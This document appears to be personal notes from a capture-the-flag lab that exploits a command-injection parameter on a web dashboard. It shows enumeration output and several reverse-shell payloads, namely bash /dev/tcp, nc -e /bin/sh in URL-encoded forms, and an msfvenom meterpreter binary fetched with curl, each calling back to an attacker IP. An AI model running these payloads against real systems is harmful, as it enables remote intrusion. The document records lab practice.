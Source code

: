 
Now i will enumerate a little so will get a idea which level of user we are
```
?cmd=whoami
www-data 
?cmd=hostname
80d6348b223e
?cmd=uname -a
Linux 80d6348b223e 5.4.0-1030-aws #31-Ubuntu SMP Fri Nov 13 11:40:37 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
?cmd=which bash
/bin/bash 
```

Let's try to get a reverse shell from bash -> python3 -> php

Will setup a netcat listner
```
http://admin.holo.live/dashboard.php?cmd=bash -i >& /dev/tcp/10.8.167.78/4444 0>&1 it didn't worked let's try to run 

Payload
?cmd=nc -e /bin/sh 10.8.167.78 4444
http://admin.holo.live/dashboard.php?cmd=nc -e /bin/sh 10.8.167.78 4444

admin.holo.live/dashboard.php?cmd=nc%20-e%20/bin/sh%2010.8.167.78%204444

admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh+10.8.167.78+4444
```

Will try to upload the reverse shell simply in the tmp folder and will trigger it from there.
I am not getting the reverse shell will use 

msfvenom to make a reverse shell meterpter shell and will use msfconsole to get the shell

Will look into the tmp folder
```
admin.holo.live/dashboard.php?cmd=ls -la /tmp
```
![[Pasted image 20231011215133.png]]

Will upload the file here by using wget and python3 server

Payload
```
msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf -o mt LHOST=10.8.167.78 LPORT=4444
```
![[Pasted image 20231011225055.png]]

msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf -o mt LHOST=10.8.167.78 LPORT=4444

curl http://10.8.167.78:8001/mt -o /tmp/mt

Now will set the payload in the msf console via the multi handler
![[Pasted image 20231014132831.png]]
https://www.youtube.com/watch?v=a3IQ8IuVLmM
